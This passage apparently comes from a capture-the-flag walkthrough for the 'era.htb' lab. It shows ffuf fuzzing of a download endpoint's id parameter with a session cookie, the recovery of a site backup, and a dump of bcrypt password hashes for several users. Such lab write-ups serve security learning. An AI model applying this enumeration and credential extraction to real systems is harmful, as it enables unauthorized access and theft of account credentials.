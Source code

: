 ### User registration

No known credentials existed initially. Registered a new account with `/register.php` to access additional features.

---

## Phase 3 - ID Parameter Fuzzing & Backup Analysis

### Finding hidden files via `id` parameter fuzzing

To enumerate possible file IDs in `download.php`, a numeric wordlist was used and fuzzed with `ffuf`:

```bash
seq 1 5000 > id.txt
ffuf -u 'http://file.era.htb/download.php?id=FUZZ' \
     -w id.txt \
     -H 'Cookie: PHPSESSID=dghjni9n5t7j1qci649od1jjo3' \
     -fw 3161
```

**Results:**

* `id=54` → `site-backup-30-08-24.zip` (backup archive)
* `id=150, 188, 4803` → other files

### Backup analysis

Downloaded and extracted `site-backup-30-08-24.zip`.

**Critical files recovered from the backup:**

* `filedb.sqlite` — application database containing user records and password hashes
* `security_login.php` — alternative login mechanism (logic and/or security questions)
* `download.php` — source code that revealed a vulnerability in handling `format` when an admin requests file display

---

## Phase 4 - Credential Recovery & Admin Access

### Database analysis

Extracted hashed credentials from `filedb.sqlite` (example rows):

```
admin:$2y$10$wDbohsUaezf74d3sMNRPi.o93wDxJqphM2m0VVUp41If6WrYr.QPC
eric:$2y$10$S9EOSDqF1RzNUvyVj7OtJ.mskgP1spN3g2dneU.D.ABQLhSV2Qvxm
veronica:$2y$10$xQmS7JL8UT4B3jAYK7jsNeZ4I.YqaFFnZNA/2GCxLveQ805kuQGOK
yuri:$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.
john:$2a$10$iccCEz6.5.W2p7CSBOr3ReaOqyNmINMH1LaqeQaL22a1T1V/IddE6
ethan:$2a$10$PkV/LAd07ftxVzBHhrpgcOwD3G1omX4Dk2Y56Tv9DpuUV/dh/a1wC
```
